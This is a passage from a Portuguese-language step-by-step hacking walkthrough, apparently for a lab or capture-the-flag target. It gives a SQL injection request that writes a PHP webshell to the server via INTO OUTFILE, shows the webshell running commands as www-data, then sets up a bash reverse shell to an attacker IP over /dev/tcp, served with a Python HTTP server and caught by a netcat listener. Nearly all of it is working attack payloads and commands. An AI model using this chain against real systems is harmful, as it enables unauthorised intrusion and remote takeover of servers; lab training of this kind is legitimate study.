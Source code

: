 - Faça a requisição para:
    

```
http://<IP-ALVO>/_ul/usuarios/3%20UNION%20SELECT%201%2C%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fvert16x.class.php%27
```

- Envie via **Burp Repeater**
    

✅ Se a resposta for `null`, deu certo → a **webshell foi criada**.

---

## 🔹 **PASSO 7 – Usando a WebShell para testar**

No navegador ou via Burp, faça:

```http
GET /_ul/vert16x?cmd=id
```

✅ Retorna algo como:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## 🔹 **PASSO 8 – Reverse Shell usando `curl | sh`**

### 1. Crie `shell.sh` no seu Kali:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.0.21.49/4444 0>&1
```

⚠️ **Use seu IP real da VPN/Kali.**

---

### 2. Suba o servidor para servir esse arquivo:

```bash
cd onde/está/shell.sh
python3 -m http.server 80
```

---

### 3. Netcat ouvindo:

```bash
nc -lvnp 4444
```

---